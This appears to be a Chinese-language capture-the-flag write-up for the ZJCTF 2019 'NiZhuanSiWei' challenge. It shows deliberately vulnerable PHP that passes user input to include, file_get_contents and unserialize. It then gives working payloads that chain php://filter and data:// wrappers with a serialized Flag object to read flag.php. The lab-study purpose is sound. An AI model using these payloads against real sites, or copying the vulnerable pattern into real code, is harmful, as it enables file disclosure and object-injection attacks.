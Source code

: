 # [ZJCTF 2019]NiZhuanSiWei

## 知识点

`php代码审计`

`php伪协议`

## 解题

```php
<?php
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

发现有反序列化函数 但是没有传参点 发现有提示`useless.php`

使用伪协议读取一下内容，注意`include($file)`直接传入`useless.php`会被解析为`php文件`之后被执行，想要读取文件内容则需要使用伪协议

`payload`

```
?text=data://text/plain,welcome to the zjctf&file=php://filter/convert.base64-encode/resource=useless.php
```

读取到`useless.php`文件的内容为

```php
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

发现有反序列化的点，并且在源代码时被调用`echo`，所以执行`__toString()`方法

```php
$password = unserialize($password);
echo $password;
```

编写`exp`

因为`file_get_contents`可以直接读取文件，只是读取后会显示在源代码，所以也可以用
```php
public $file = "flag.php";
```

```php
<?php  

class Flag{  //flag.php  
    public $file = "php://filter/convert.base64-encode/resource=flag.php";  
}  

$a = new Flag();
echo serialize($a);
?>  
```

做题的时候忘了`useless.php`还没有包含执行，就在那反序列化了，所以最终`payload`为

```
?text=data://text/plain,welcome to the zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:52:"php://filter/convert.base64-encode/resource=flag.php";}